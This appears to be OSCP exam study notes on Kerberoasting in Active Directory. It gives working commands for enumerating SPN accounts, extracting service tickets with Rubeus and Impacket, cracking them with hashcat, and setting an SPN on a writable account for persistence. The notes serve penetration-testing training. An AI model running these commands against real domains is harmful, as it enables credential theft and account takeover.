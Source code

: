 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/4-kerberoasting/"}
---
```


-------
- a.k.a TGS-REP roasting
- Client requests a service ticket generated by the DC.
- No checks are done until the ticket is used to authenticate, since it is hashed.
- If the SPN runs in the context of a computer account, managed service account, or group-managed service account, the password will be randomly generated 120 chars.
- Same is true for "krbtgt" user.
- Hence, user accounts are often the way to crack.
-------------------
### Enumerate Kerberoastable users:
- Setspn:
```
setspn.exe -Q */*
```
- PowerView:
```
Get-NetUser -SPN | select serviceprincipalname
```
- Rubeus:
```
\Rubeus.exe kerberoast /stats
```
-------------
### Local Kerberoasting with Rubeus:
1. Start the roast:
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
2. Crack hash on kali:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
------------
### Remote Kerberoasting with Impacket:
1. Start the roast:
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
2. Crack hash:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Note: If Impacket throughs error "KRB_AP_ERR_SKEW(Clock skew too great)", the time of Kali needs to be synchronized with the DC. Do that using "ntpdate" or "rdate".
-------------------
### Targeted Kerberoasting Abuse/Persistence:
Make user kerberoastable where we have write privileges:
```
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
